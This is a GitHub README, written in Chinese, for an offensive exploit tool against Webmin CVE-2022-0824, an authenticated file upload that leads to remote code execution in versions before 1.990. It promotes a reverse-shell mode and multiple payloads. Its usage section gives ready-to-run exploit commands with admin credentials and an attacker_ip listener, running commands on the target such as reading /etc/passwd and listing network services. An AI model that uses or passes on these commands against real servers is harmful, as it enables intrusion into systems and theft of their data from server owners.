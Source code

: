# Webmin-CVE-2022-0824-Enhanced-Exploit
> [!IMPORTANT]
>
> Webmin CVE-2022-0824 增强版漏洞利用工具 - 支持命令执行和反向Shell双模式

[![Python Version](https://img.shields.io/badge/python-3.6+-blue.svg)](https://www.python.org/downloads/)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE)
[![CVE](https://img.shields.io/badge/CVE-2022--0824-red.svg)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0824)

> [!IMPORTANT]
>
> 一个针对 Webmin CVE-2022-0824 漏洞的增强版利用工具，支持直接命令执行和反向Shell两种模式。

## 🚀 特性

- ✅ **双模式支持**：命令执行模式 + 反向Shell模式
- ✅ **多种Payload**：Perl、Bash、Python三种不同的payload
- ✅ **智能文件管理**：自动生成唯一文件名，避免文件冲突
- ✅ **强制覆盖上传**：自动处理已存在文件的覆盖问题
- ✅ **多重上传方式**：HTTP下载、直接上传、命令执行创建
- ✅ **详细调试信息**：完整的执行过程日志
- ✅ **用户友好界面**：彩色输出和清晰的状态提示

## 📋 漏洞信息

- **CVE编号**: CVE-2022-0824
- **影响版本**: Webmin < 1.990
- **漏洞类型**: 任意文件上传导致的远程代码执行
- **CVSS评分**: 9.8 (Critical)

## 🛠️ 安装要求

```bash
# Python 3.6+
pip3 install requests urllib3
```

## 📖 使用方法

### 命令执行模式（推荐）

```bash
# 基本命令执行
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 --shell "whoami"

# 查看系统信息
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 --shell "uname -a"

# 列出文件
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 --shell "ls -la /etc"

# 查看敏感文件
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 --shell "cat /etc/passwd"

# 网络信息
python3 exploit.py -t http://target:10000/ -c admin:password -LS attacker_ip:8080 --shell "netstat -tulnp"
```